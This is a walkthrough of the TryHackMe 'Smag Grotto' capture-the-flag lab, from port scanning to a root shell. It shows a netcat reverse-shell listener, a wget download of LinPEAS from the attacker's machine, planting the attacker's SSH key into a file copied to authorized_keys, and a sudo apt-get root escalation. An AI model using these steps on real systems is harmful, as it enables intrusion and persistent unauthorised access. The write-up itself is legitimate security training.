

# Smag Grotto (THM)
https://tryhackme.com/room/smaggrotto

## Port scan

### Tool used: nmap
<br>

```
nmap -p- smag.thm --open

Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-12 12:44 CDT
Stats: 0:02:15 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Nmap scan report for smag.thm (10.10.234.56)
Host is up (0.20s latency).
Not shown: 57640 closed tcp ports (conn-refused), 7893 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

## HTTP enumeration

### Tool used: gobuster
<br>

```
gobuster dir --url http://smag.thm --wordlist /usr/share/wordlists/dirb/common.txt 

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://smag.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/08/12 12:48:41 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 273]
/.htpasswd            (Status: 403) [Size: 273]
/.hta                 (Status: 403) [Size: 273]
/index.php            (Status: 200) [Size: 402]
/mail                 (Status: 301) [Size: 303] [--> http://smag.thm/mail/]
/server-status        (Status: 403) [Size: 273]                            
                                                                           
===============================================================
2022/08/12 12:50:28 Finished
===============================================================
```

Browsing the URL in the browser doesn't reveal anything:

<br><br>

However, *gobuster* gives us "/mail" to try:

<br><br>

We download the the PCAP file using *wget* and open it with Wireshark:

<br><br>

Browsing the TCP stream reveals some credentials for a login page: **development.smag.thm/login.php**

<br><br>

Once we add a hosts entry for **development.smag.thm**, we are able to reach the login page:

<br><br>

Using the credentials we grabbed from the PCAP file, we are presented with a "command" page:

<br><br>

Commands are executed, but no output is shown. Therefore, the only logical thing to do at this point is to create a reverse shell. From our machine, we create a listener using *netcat*:

```
nc -lvnp 8888
```

Next, we execute *netcat* on the remote machine and connect back to our machine:

<br><br>

Now, our machine is connected to the target.

```
Connection from 10.10.234.56:42834
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$
```

## Enumeration

### Tool used: LinPEAS
<br>

First, we startup a simple Python web server on our machine:

```
python -m http.server
```

Next, we grab the script on the target:

```
wget 10.2.105.239:8000/linpeas.sh

--2022-08-12 11:33:58--  http://10.2.105.239:8000/linpeas.sh
Connecting to 10.2.105.239:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 807167 (788K) [application/x-sh]
Saving to: 'linpeas.sh'

     0K .......... .......... .......... .......... ..........  6% 79.1K 9s
    50K .......... .......... .......... .......... .......... 12%  136K 7s
   100K .......... .......... .......... .......... .......... 19%  153K 6s
   150K .......... .......... .......... .......... .......... 25%  248K 4s
   200K .......... .......... .......... .......... .......... 31% 6.01M 3s
   250K .......... .......... .......... .......... .......... 38%  247K 3s
   300K .......... .......... .......... .......... .......... 44%  240K 2s
   350K .......... .......... .......... .......... .......... 50%  248K 2s
   400K .......... .......... .......... .......... .......... 57% 12.1M 2s
   450K .......... .......... .......... .......... .......... 63%  251K 1s
   500K .......... .......... .......... .......... .......... 69%  237K 1s
   550K .......... .......... .......... .......... .......... 76% 9.32M 1s
   600K .......... .......... .......... .......... .......... 82%  168K 1s
   650K .......... .......... .......... .......... .......... 88%  249K 0s
   700K .......... .......... .......... .......... .......... 95% 7.95M 0s
   750K .......... .......... .......... ........             100%  193K=3.3s

2022-08-12 11:34:02 (241 KB/s) - 'linpeas.sh' saved [807167/807167]
```

LinPEAS gives us some useful information. We see that the user *jake* has a backup of their public key copied to their *authorized_keys* file. 

<br><br>

From here, we generate our own set of private/public keys, and copy our public key to their *authorized_keys*, so that we are able to login via SSH using our own key:

```
echo ‘ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDrSH03ZDgnoZbIaekD57NEyVNwWtHdmZZc7gufxOH2uGeO7iQEt/FjvCExHfDeEllCfAHoNCoJKs8S3S/MKZC7uIPTSueNCGpltRei2189fYDnRj9iOL/kvVKzCkReleAXVtH2Psb5bwvCoEYTub1XZzXbb2xM8ygx/P+kvq/DRlfmuzDAdxGnk3x4yHdXq6DtlKOZraHLSKZFIfqz0Bqwc1CyWfu5p8LWC2FQqJjyqwlxkNA7uaN1eqMCxaqBsOMUY5EBjHAzD5QB4oEVGNonf7kLlSSPWS3PqkxGkQG8hfRMUKJLwstN+bhM8k6ycSYDJhRHoaBdbWODt5YwHgFc4BatxFDkRsaK3SXnD+1bJrb8YgUy2cXIdk/OzYaEwJujebcVjcxMDdlPAlW3WB09nT+a+rdpPopn9ZD/y7xZGXLc/ygNSlqU5rEEWpdmFc2iFq20GgkMzU0mMQmE05w1ngSfuIeqXI5JRvBX9g458RMJctGZEuwuWiVGqJzzjBM= user@host’ > /opt/.backups/jake_id_rsa.pub.backup
```

<br><br>

We quickly see the **user.txt** flag, but we still need **root.txt**.
<br><br>

## Privilege escalation

Checking jake's *sudo* privileges reveals they are able to run apt-get without a password:

<br><br>

A quick glance at GTFOBins (https://gtfobins.github.io/gtfobins/apt-get/) shows us that we can use *apt-get* to spawn an interactive shell. Using this technique, we quickly gain root access. 

From here, we quickly find **root.txt**!

